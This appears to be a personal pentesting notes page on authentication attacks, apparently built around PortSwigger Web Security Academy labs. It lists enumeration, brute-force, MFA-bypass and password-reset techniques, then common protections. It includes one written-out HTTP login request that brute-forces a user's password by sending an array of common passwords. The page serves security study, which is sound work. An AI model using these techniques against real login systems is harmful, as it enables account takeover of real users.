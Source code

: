 >[!Question] What is Authentication?
>[Authentication 101](Authentication.md)

## Password-based login attacks

The security of the website would be compromised if an attacker is able to either obtain or guess the login credentials of another user.

Techniques:
- Enumerate or brute-force usernames online ([Passive information gathering (OSINT)](Passive%20information%20gathering%20(OSINT).md))
- Username enumerations using login/registration/password reset (look to status codes, error messages, response times)
- [Password Attacks](Password%20Attacks.md)
- Exploit flawed protection
	- Account locking disclosing registered users
	- Flawed brute-force protections resetting the counter every valid login or for any different IP
	- [HTTP Verb Tampering](HTTP%20Verb%20Tampering.md)
- [Session Attacks (CSRF, session stealing, etc.)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md)
- [SQL Injection leading to authentication bypass](SQL%20Injection.md#Authentication%20Bypass)
-  [Type Juggling](Type%20Juggling.md)
```http
POST /login HTTP/1.1
Host: 0a690029038e65bfc04ed2d1007d0057.web-security-academy.net
Cookie: session=Zb1D8NGHIvy10kSH26Xrwex4kxtvUPHZ
Content-Length: 1194
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a690029038e65bfc04ed2d1007d0057.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a690029038e65bfc04ed2d1007d0057.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"carlos","password":["123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
...
"moscow"
],"":""}
```

## Multi-factor authentication attacks

- SIM swapping to intercept SMS-based verification codes
- [Business logic vulnerabilities](Business%20logic%20vulnerabilities.md) (eg. browsing the site before submitting the 2FA code, editing server responses to bypass client side validation, etc.)
- Brute-forcing 2FA codes
- Exploiting flawed two-factor verification logic (eg. log in using own credentials but then change the value of the account identifier)
- Exploiting other vulnerabilities (eg. [Host Header attacks](Host%20Header%20attacks.md)) or 3non-standard headers (eg. `X-Forwarded-for`, etc.) to intercept 2FA codes

## Other authentication mechanisms

- "Keep me log in" cookie brute-force or steal
- [Password Reset Poisoning](Password%20Reset%20Poisoning.md)
- Exploit application features (eg. password reset) to brute-force other user's password
- [Session Attacks (CSRF, session stealing, etc.)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md)
- [Access control vulnerabilities](Access%20control%20vulnerabilities.md) in password reset logic
- [OAuth 2.0](OAuth%202.0.md) and [OAuth 2.0 attacks](OAuth%202.0%20attacks.md)

---

# Common protections

- Locking the account that the remote user is trying to access if they make too many failed login attempts (this protection do not stop password stuffing attacks or password spraying attacks)
- Blocking the remote user's IP address if they make too many login attempts in quick succession (this protection may be bypassed if the server has some misconfiguration that reset the IP's error count: eg. `X-Forwarded-for`, valid logins, etc.)
- User rate limiting
- https://portswigger.net/web-security/authentication/securing